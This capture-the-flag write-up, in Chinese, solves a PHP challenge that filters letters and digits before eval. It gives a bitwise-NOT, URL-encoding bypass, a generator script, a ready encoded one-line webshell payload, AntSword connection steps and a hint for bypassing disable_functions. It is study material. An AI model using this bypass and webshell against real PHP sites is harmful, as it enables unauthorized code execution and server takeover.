


## flag
`flag{7d72d4e0-55f5-41c0-8e78-e02eab0679f9}`

## 思路

1. 打开页面，分析源码，所有字母和数字被过滤。
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```
2. 采用~对cmd按位取反，以phpinfo为例。
- `php -r "echo urlencode(~'phpinfo');"`得到`%8F%97%8F%96%91%99%90`
  
3. 对一句话木马取反url编码，取反代码如下。用AntSword连接载荷`code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8C%97%9A%93%93%DD%A2%D6%D6);`
```php
<?php
$a='(eval($_POST["shell"]))';# eval($_POST["shell"]) also OK
echo urlencode(~$a);
echo "\n";
$b="assert";
echo urlencode(~$b);
?>
```
4. /flag文件没有flag，执行/readflag，得到flag。
   

## 总结
在CMD字符被过滤时，可以用~取反urlencode绕过限制。用AntSword连接一句话木马时，可以用插件市场bypass插件bypass disable_functions